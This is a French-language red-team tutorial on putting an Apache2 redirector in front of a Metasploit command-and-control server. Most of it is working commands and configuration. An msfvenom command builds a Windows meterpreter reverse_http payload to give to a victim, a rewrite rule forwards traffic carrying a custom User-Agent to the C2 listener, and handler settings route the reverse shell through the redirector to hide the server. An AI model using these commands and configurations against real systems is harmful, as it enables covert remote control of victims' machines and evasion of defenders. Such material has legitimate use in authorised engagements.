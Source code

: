Il s'agit d'un serveur qui « redirige » les requêtes HTTP/HTTPS en fonction des informations contenues dans le corps de la requête.

La configuration d'un redirecteur garantit que toutes les informations que vous avez pu collecter au cours de l'engagement sont saines et sauves.

Configurer un pare-feu pour autoriser uniquement la communication vers et depuis votre (vos) redirecteur(s) afin d'atténuer les risques potentiels

# Metasploit + Apache2

Les modules suivants doivent être activés :

- rewrite
- proxy
- proxy_http
- headers

```sh
sudo apt install apache2 -y
```

```sh
sudo a2enmod rewrite && sudo a2enmod proxy && sudo a2enmod proxy_http && sudo a2enmod headers && sudo systemctl start apache2 && sudo systemctl status apache2
```

Nous générerons une charge utile HTTP inversée

```sh
msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.x.x LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

Après avoir généré l'exécutable et transféré à une victime, vous remarquerez avec Wireshark qu'une requête HTTP arrive avec notre `User-Agent: NotMeterpreter`

Maintenant que nous avons un champ que nous pouvons contrôler dans la requête HTTP, créons une règle qui filtre sur le `User-Agent` et transmettons-la à notre serveur Metasploit C2.

```sh
sudo nano /etc/apache2/sites-available/000-default.conf
```

```xml
<VirtualHost *:80>

	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/html

	RewriteEngine On
	RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"
	ProxyPass "/" "http://localhost:8080/"

	<Directory>
		AllowOverride All
	</Directory>

	ErrorLog ${APACHE_LOG_DIR}/error.log
	CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```


Pour configurer correctement Meterpreter :

- Nous devons définir notre argument `LHOST` sur l'interface entrante à partir de laquelle nous attendons des connexions. Dans le monde réel, ce sera votre interface publique à laquelle votre redirecteur se connectera (c'est-à-dire votre adresse IP publique), et le `LPORT` sera celui que vous souhaitez. **Ces options devront également être dupliquées pour ReverseListenerBindAddress et ReverseListenerBindPort.**

- Nous devons configurer `OverrideLHOST` - Cette valeur sera l'adresse IP ou le nom de domaine de votre redirecteur.

- Nous devons définir `OverrideLPORT` ; ce sera le port sur lequel HTTP _ou_  HTTPS s'exécute, sur votre redirecteur.

- Nous devons définir `OverrideRequestHost` sur `true`. Cela obligera Meterpreter à répondre avec les informations `OverrideHost`, de sorte que toutes les requêtes passent par le redirecteur et non par votre serveur C2

```sh
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST 127.0.0.1
set LPORT 8080
set ReverseListenerBindAddress 127.0.0.1
set ReverseListenerBindPort 8080
set OverrideLHOST 192.168.0.44
set OverrideLPORT 80
set HttpUserAgent NotMeterpreter
set OverrideRequestHost true
run
```